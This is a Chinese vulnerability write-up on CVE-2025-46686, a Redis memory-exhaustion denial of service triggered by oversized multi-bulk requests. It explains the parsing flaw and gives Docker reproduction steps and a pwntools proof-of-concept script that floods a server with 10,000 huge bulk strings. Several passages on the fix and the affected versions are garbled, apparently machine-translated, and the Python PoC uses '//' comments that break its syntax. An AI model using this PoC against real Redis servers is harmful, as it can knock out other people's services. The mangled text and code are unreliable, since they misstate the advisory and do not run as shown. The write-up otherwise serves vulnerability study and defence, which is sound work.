



# CVE-2025-46686 CWE-401 Redis DoS

## 漏洞背景

- **Redis**：一个key-value 存储系统，是跨平台的非关系型数据库。开源的内存数据库，提供了一个高性能的键值（key-value）存储系统，常用于缓存、消息队列、会话存储等应用场景。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。
- **Multi-bulk :** Redis 使用的一种 RESP 协议数据格式，用来表示一个由多个元素组成的数组（通常是一条命令及其参数列表），其格式以 `*<元素个数>\r\n` 开头，每个元素再用 `$<长度>\r\n<数据>\r\n` 表示；例如 `*3\r\n$3\r\nSET\r\n$3\r\nkey\r\n$5\r\nvalue\r\n` 就表示命令 `SET key value`。

## 漏洞原理

Redis 在解析 multi-bulk 请求时，会先为每个参数分配内存，只有等所有参数都读完后才去做命令解析与 ACL 权限校验，因此攻击者只要以已认证的低权限账号持续发送包含大量、超大参数的请求，即使最终命令因无权限或未知而被拒绝，Redis 也会在解析阶段耗尽内存，导致拒绝服务。

## 漏洞定位


分析 Redis-7.4.2 源代码 ：

漏洞位于 `src/networking.c::processMultibulkBuffer()` 的 RESP 多批量解析阶段。对已认证客户端，数组元素数量仅受 `INT_MAX` 限制，单个批量字符串仅受 `server.proto_max_bulk_len` 限制；未认证客户端的 10 个参数/16 KiB 特殊限制在认证完成后不再适用。

```c
ok = string2ll(..., &ll);
if (!ok || ll > INT_MAX)
    return C_ERR;
else if (ll > 10 && authRequired(c))
    return C_ERR;

c->multibulklen = ll;
c->argv_len = min(c->multibulklen, 1024);
c->argv = zmalloc(sizeof(robj*) * c->argv_len);

/* Each following bulk is allocated while parsing, before ACL dispatch. */
if (!ok || ll < 0 || ll > server.proto_max_bulk_len)
    return C_ERR;
```

命令权限仅在整个 argv 解析完成后才检查 。 因此,即使用户由 ACL 无法执行任何命令,大量有效的批量条目接近 `proto_max_bulk_len` 可以发送,允许服务器在拒绝命令之前持续分配参数对象,最终是OOM。 Redis 正式承认它需要认证,构成滥用礼仪,不违反《公约》。 Redis 安全模型,公告中明确指出没有编码固定计划； 这里应该没有假补丁

## 漏洞修复


Redis官方的安保公告 标出这个问题 没有计划固定。 可行的缓解措施包括只向受信任的代理人发放账户,限制网络层单一连接请求的大小/速率,隔离租户,通过集装箱或服务管理人员设定内存限制和自动重启。 ACLs本身在解析阶段无法阻止内存分配。

## 影响范围


Redis：

- 转 8.0.3

## 环境搭建

启动 Docker 环境，Redis 版本为 7.4.2，存在 poc 文件 CVE-2025-46686-PoC.py

```txt
CNA:MITRE    Base Score:3.5 LOW    Vector:CVSS:3.1/AV:A/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L
```

```txt
cpe:2.3:a:redis:redis:7.4.2:*:*:*:*:*:*:*
```



## 漏洞复现

1. 进入容器命令行运行 PoC 代码，在 Step4 执行一段时间后直接退出。查看容器状态，发现目前无容器运行

   ```bash
   docker exec -it redis-7.4.2 python3 CVE-2025-46686-PoC.py
   ```

   

2. 查看容器日志，可以看到 Redis 进程内存线性攀升，单客户端可以在极短时间内将 Redis 进程的内存推高到数 GB 级

   ```bash
   docker logs redis-7.4.2 
   ```

   

## PoC分析

```python
from pwn import *

def number_to_ascii_bytes(number):
    return str(number).encode('ascii')

// 构造巨型 bulk-string
n_bucks = 10000  # Large number of bulks
buck = b"A" * 0xffffff  # Size < proto_max_bulk_len

// 按 Redis 协议，一条 bulk-string 的格式：$<长度>\r\n<数据>\r\n
buck_len = number_to_ascii_bytes(len(buck))
buck_payload = b"$" + buck_len + b"\r\n" + buck + b"\r\n"

// 发送 Redis 数组头，*10000\r\n，表示后面要跟 10 000 个 bulk-string
r = connect("localhost", 6379)
r.send(b"*" + number_to_ascii_bytes(n_bucks) + b"\r\n")

// 循环灌水
for _ in range(n_bucks):
    r.send(buck_payload)
```

看到 `*10000` 后，服务器知道这是一条**拥有 10000 个元素**的多批量（Multi-Bulk）请求。对**每一个** `$len\r\n<data>\r\n`，服务器会为该参数分配内存，导致内存被迅速耗尽。

## 参考链接


[NVD - CVE-2025-46686](https://nvd.nist.gov/vuln/detail/CVE-2025-46686)

[Multi-bulk commands sent by clients can lead to DoS · Advisory · redis/redis](https://github.com/redis/redis/security/advisories/GHSA-2r7g-8hpc-rpq9)

[CVE-2025-46686 - Redis DoS via Multi-Bulk Commands from Low-Permission Clients · Issue #1 · io-no/CVE-Reports](https://github.com/io-no/CVE-Reports/issues/1)

[CVE-Reports/CVE-2025-46686/poc_resp.py at main · io-no/CVE-Reports](https://github.com/io-no/CVE-Reports/blob/main/CVE-2025-46686/poc_resp.py)
